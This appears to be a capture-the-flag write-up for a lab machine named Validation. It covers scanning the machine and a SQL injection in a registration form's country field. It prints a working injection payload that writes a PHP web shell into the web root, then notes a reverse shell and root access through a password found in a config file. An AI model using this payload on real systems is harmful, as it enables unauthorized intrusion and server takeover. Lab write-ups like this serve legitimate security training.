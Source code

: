 # Validation

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (87) (1).png" alt=""><figcaption></figcaption></figure>

### SQL Injection for RCE

The website contains a simple register function that takes user input.

<figure><img src="../../../.gitbook/assets/image (98) (4).png" alt=""><figcaption></figcaption></figure>

When proxying the traffic, the POST request is submitted like so:

```http
username='&country=Afganistan
```

When viewing our request, this is what we would see:

<figure><img src="../../../.gitbook/assets/image (85) (2).png" alt=""><figcaption></figcaption></figure>

A quick directory scan reveals there is an `account.php` endpoint on the machine.&#x20;

```
$ feroxbuster -u http://10.10.11.116 -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.116
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      309c http://10.10.11.116/js
200        0l        0w        0c http://10.10.11.116/config.php
301        9l       28w      310c http://10.10.11.116/css
200        1l        2w       16c http://10.10.11.116/account.php
200      268l      747w        0c http://10.10.11.116/index.php
403        9l       28w      277c http://10.10.11.116/server-status
```

The `config.php` endpoint presented an empty screen, which I think we have to look into after gaining a shell. Anyways, the `account.php` file displayed an SQL error when trying to view the player I registered.

<figure><img src="../../../.gitbook/assets/image (106) (3).png" alt=""><figcaption></figcaption></figure>

Instead of enumerating the database, I directly wrote a webshell into the page.

{% code overflow="wrap" %}
```http
username=a&Afganistan' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/cmd.php';#
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (103) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can get a reverse shell and enumerate the `config.php` file we saw earlier.

## Privilege Escalation

Within the config file, there was a password, which happened to be the root password.

<figure><img src="../../../.gitbook/assets/image (105) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (109) (3).png" alt=""><figcaption></figcaption></figure>
